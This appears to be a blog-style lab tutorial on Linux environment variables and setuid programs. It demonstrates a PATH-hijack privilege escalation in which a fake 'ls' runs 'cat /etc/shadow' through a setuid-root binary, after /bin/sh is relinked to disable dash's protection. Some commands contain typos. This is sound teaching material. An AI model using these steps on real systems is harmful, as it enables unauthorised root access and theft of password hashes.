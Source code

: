 ```yaml
---
layout: post
title: Environment Variables & SetUID
excerpt:
categories: [setuid, setgid]
---
```


### Environment Variables

Environment variables are variables that store information, such as configuration settings or system paths, which can be accessed by applications and scripts. Environment variables affect the behavior of programs and scripts that use them. Environment variables are usually stored in a key-value pair format, where the variable name represents the key and its corresponding value represents the data associated with that variable.

Environment variables can be set, modified, or removed by the user, by scripts, or by applications. To view the environmental variables that are already set, one can use `printenv` or `printenv [KEY]` i.e. `printenv SHELL`

To set an environment variable:

- `export KEY:"VALUE"`

To unset an environment variable:

- `unset KEY`

When a parent process creates a child process through `fork()`, the environment variables of the parent process is copied to the child process. This means that every child process will have by default the same environment variables that the parent posseses.

When `system()` is used to execute a command in a script or program, it doesn't directly execute the program, but rather calls `/bin/sh` to execute the command; however, when execve() is used to execute a command in a script or program, it directly executes a command. The implication of `system()` not directly executing the command is that any command provided cannot be effectively sanitized but gets sent through to `bin/sh` to execute.

<br>

### SetUID

Setuid, short for "set user ID upon execution," is a permission that allows a user to temporarily adopt the privileges of the owner of a file. This means thatwhen a setuid is enabled for an executable file, anyone who executes that file does so as though he/she is the file's owner.

Setuid if not implemented correctly can pose security risks. Malicious users can exploit such programs to execute arbitrary code with elevated privileges.

From the previous section, we got to know that some programs create new processes using `system()` and that these commands executed by `system()` are not executed directly, but through a call to `/bin/sh`. This means that when setuid programs invoke a new process by calling `system()`, bad things can happen.

When a relative path is given, the program searches through the "PATHS" provided in the environment variable. By modifying the "PATH" in the environment variable and appending the path where our malicious program is to the beginning og the PATH variable, we can trick the program ro run our malicious program with root permissions rather than the legitimate program.

<details>
  <Summary>
    Note:
  </Summary>
  <br>
   "/bin/sh" is a symbolic link pointing to "/bin/dash". Dash has a countermeasure that prevents itself from being executed in a Set-UID process. To see how our attack works without such a countermeasure, we will link "/bin/sh" to "/bin/sh" to "/bin/zsh" which does not have such countermeasure.
</details>


#### Create setuid program

1. The program that we would create and set the SetUID permission on is shown below:

   ```
    #include <stdlib.h>
    
    int main()
    {
      system("ls");
      return 0;
    }
    ```

2. Compile the program

   `gcc -o mysetuid mysetuid.c`

3. change the owner to root and set setuid permission

   - sudo chown root mysetuid

   -  sudo chmod 4755 mysetuid


#### Create malicious program

In order to take advantage of the vulnerability present in the setuid program, we will create a malicious program named ls and export the path of the malicious program to set the environment variable.

1. The malicious program that we would create is shown below:

   ```
    #include <stdlib.h>
    
    int main()
    {
      system("usr/bin/cat /etc/shadow");
      return 0;
    }
    ```

2. Compile the program

   `gcc -o malicious_app malicious_app`

3. backup the path, copy the malicious program to /tmp/bin/ and export the path

   - `printenv PATH > path_env.bk`
  
   - `mkdir /tmp/bin && cp ./malicious_app /tmp/bin/ls`
  
   - `export PATH=/tmp/bin:$PATH`


#### Run the setuid program

***PATH environment variable***

***`./mysetuid`***

<br>

### The LD PRELOAD Environment Variable


